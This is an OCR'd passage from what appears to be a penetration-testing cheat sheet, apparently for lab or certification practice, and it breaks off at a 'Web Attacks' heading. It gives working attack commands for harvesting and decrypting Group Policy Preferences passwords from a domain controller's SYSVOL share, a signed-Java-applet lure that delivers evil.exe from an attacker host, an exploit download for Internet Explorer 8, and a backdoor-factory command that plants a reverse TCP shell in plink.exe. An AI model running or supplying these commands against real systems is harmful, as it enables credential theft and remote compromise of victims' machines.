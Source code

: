 -   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        net use z: \\\\dc01\\SYSVOL

    -   Find the GPP file: Groups.xml  
        dir /s Groups.xml

    -   Review the contents for passwords  
        type Groups.xml

    -   Decrypt using GPP Decrypt  
        gpp-decrypt
        riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
        
-   Find and display the proof.txt or flag.txt - get the loot!
    `#meterpreter  >     run  post/windows/gather/win_privs`
    
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    

Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------

    -   MS12-037- Internet Explorer 8 Fixed Col Span ID  
        wget -O exploit.html
        <http://www.exploit-db.com/download/24017>  
        service apache2 start

    -   JAVA Signed Jar client side attack  
        echo '<applet width="1" height="1" id="Java Secure"
        code="Java.class" archive="SignedJava.jar"><param name="1"
        value="http://$ip:80/evil.exe"></applet>' >
        /var/www/html/java.html  
        User must hit run on the popup that occurs.

    -   Linux Client Shells  
        [*http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/*](http://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

    -   Setting up the Client Side Exploit

    -   Swapping Out the Shellcode

    -   Injecting a Backdoor Shell into Plink.exe  
        backdoor-factory -f /usr/share/windows-binaries/plink.exe -H $ip
        -P 4444 -s reverse\_shell\_tcp

-   <span id="_n6fr3j21cp1m" class="anchor"><span id="_Toc480741818" class="anchor"></span></span>Web Attacks
    ---------------------------------------------------------------------------------------------------------

